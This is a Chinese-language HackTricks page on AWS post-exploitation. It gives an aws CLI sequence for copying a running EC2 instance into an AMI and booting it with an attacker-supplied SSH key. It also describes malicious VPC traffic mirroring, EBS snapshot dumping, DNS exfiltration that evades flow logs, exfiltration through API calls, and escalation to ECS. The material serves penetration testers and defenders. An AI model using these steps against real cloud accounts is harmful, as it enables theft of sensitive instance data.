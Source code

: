 # AWS - EC2、EBS、SSM和VPC后渗透

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

- 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF版的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
- 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
- 发现[**The PEASS Family**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
- **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或 **关注**我在**Twitter**上的🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
- **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## EC2和VPC

有关更多信息，请查看：

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **恶意VPC镜像**

VPC流量镜像**复制VPC内EC2实例的入站和出站流量**，无需在实例本身上安装任何东西。这个复制的流量通常会被发送到类似网络入侵检测系统（IDS）的设备上进行分析和监控。\
攻击者可以利用这一点来捕获所有流量并从中获取敏感信息：

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### 复制运行中的实例

实例通常包含某种敏感信息。有不同的方法可以进入其中（请查看[EC2权限提升技巧](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md)）。然而，另一种检查其内容的方法是**创建一个AMI并从中运行一个新实例（甚至在您自己的账户中）**：
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
### EBS快照转储

**快照是卷的备份**，通常会包含**敏感信息**，因此检查它们应该会揭示这些信息。\
如果您找到一个**没有快照的卷**，您可以：**创建一个快照**并执行以下操作，或者只是在帐户内的实例中**挂载它**：

{% content-ref url="aws-ebs-spanshot-dump.md" %}
[aws-ebs-spanshot-dump.md](aws-ebs-spanshot-dump.md)
{% endcontent-ref %}

### 数据外泄

#### DNS外泄

即使您锁定了EC2以阻止流量流出，它仍然可以通过DNS进行**外泄**。

* **VPC流日志不会记录此操作**。
* 您无法访问AWS DNS日志。
* 使用以下命令将其禁用，将"enableDnsSupport"设置为false：

`aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### 通过API调用进行外泄

攻击者可以调用由他控制的帐户的API端点。Cloudtrail将记录这些调用，攻击者将能够在Cloudtrail日志中看到外泄的数据。

### SSM后渗透

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md" %}
[aws-ssm-post-exploitation.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md)
{% endcontent-ref %}

### 提权到ECS

可以运行一个EC2实例并注册它以用于运行ECS实例，然后窃取ECS实例的数据。

有关[**更多信息，请查看此处**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs)。

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的**公司广告**，或者如果您想访问**PEASS的最新版本或下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>
